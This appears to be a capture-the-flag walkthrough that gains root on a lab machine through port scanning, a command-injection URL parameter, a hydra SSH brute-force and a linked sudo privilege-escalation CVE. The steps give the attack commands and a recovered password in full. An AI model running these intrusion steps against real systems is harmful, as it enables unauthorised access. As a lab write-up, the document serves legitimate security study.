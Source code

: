 
---

# Penetration Testing / CTF Walkthrough

## 1. Port Scanning

First, scan all ports on the target host:

```bash
nmap -sV -sC -Pn -p- -A -O 0.0.0.0
```

- `-sV` – Service version detection
    
- `-sC` – Run default scripts
    
- `-Pn` – Treat host as online, skip ping
    
- `-p-` – Scan all ports
    
- `-A` – Aggressive scan (OS detection, version detection, script scanning)
    
- `-O` – OS detection
    

---

## 2. Check Web Pages

Visit the target in a browser or use `curl` to send a POST request:

```bash
curl -X POST http://0.0.0.0
```

At startup, the target prints the following message:

```bash
echo "VHJ5IHRoaXMgP2NtZD1scw==" | base64 -d
```

Which decodes to a command prompt URL:

```
http://0.0.0.0/?cmd=ls
```

---

## 3. Gather Information

List contents of `/home` to find the username:

```
http://0.0.0.0/?cmd=ls%20/home
```

Result:

```
User: kostanai
```

---

## 4. Brute-force SSH Password

Use `hydra` to brute-force the password for `kostanai`:

```bash
hydra -l kostanai -P /usr/share/wordlists/seclists/Passwords/Default-Credentials/default-passwords.txt -V -s 22222 ssh://localhost -T 50
```

Found password:

```
TENmanUFactOryPOWER
```

---

## 5. Connect via SSH

Connect to the target using the discovered credentials:

```bash
ssh -p 22222 kostanai@0.0.0.0
```

Verify user access:

```bash
cat /home/kostanai/user.txt
```

---

## 6. Privilege Escalation

Check for `sudo` permissions:

```bash
sudo --version
```

Exploit available: [CVE-2025-32463](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/tree/main)

---

## 7. Exploit Execution

1. Create a new file in `/tmp`:
    

```bash
nano exploit.sh
```

2. Paste the exploit code from the CVE repository.
    
3. Make it executable:
    

```bash
chmod +x exploit.sh
```

Run the exploit to gain root access:

```bash
cd /root
cat root.txt
```

---

✅ **Result:** Full root access obtained.

---